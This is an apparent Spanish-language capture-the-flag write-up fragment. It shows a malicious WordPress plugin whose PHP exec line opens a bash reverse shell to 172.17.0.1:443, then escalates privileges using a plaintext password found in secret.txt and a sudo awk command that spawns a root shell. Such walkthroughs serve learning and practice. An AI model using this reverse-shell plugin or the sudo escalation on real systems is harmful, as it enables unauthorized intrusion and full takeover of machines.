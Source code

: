    ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS

Vemos que hay un secret.txt en /home :
   ```bash
www-data@a8b5aa2548c4:/home$ ls -la
total 28
drwxr-xr-x 1 root     root     4096 Jun  8 22:43 .
drwxr-xr-x 1 root     root     4096 Nov 26 01:43 ..
drwxr-x--- 1 luisillo luisillo 4096 Jun  8 22:42 luisillo
-rwxrwxrwx 1 root     root       23 Jun  8 22:43 secret.txt
drwxr-x--- 1 ubuntu   ubuntu   4096 Jun  8 22:59 ubuntu
www-data@a8b5aa2548c4:/home$ cat secret.txt 
luisillopasswordsecret
www-data@a8b5aa2548c4:/home$ su luisillo
Password: 
luisillo@a8b5aa2548c4:/home$ 
```

YA ESTAMOS COMO LUISILLO.

Vemos si el usuario tiene permisos SUDO:
   ```bash
luisillo@a8b5aa2548c4:/home$ sudo -l
Matching Defaults entries for luisillo on a8b5aa2548c4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on a8b5aa2548c4:
    (ALL) NOPASSWD: /usr/bin/awk


```

Vemos **awk** con permisos SUDO :
   ```bash
luisillo@a8b5aa2548c4:/home$ 

    sudo awk 'BEGIN {system("/bin/sh")}'

# whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**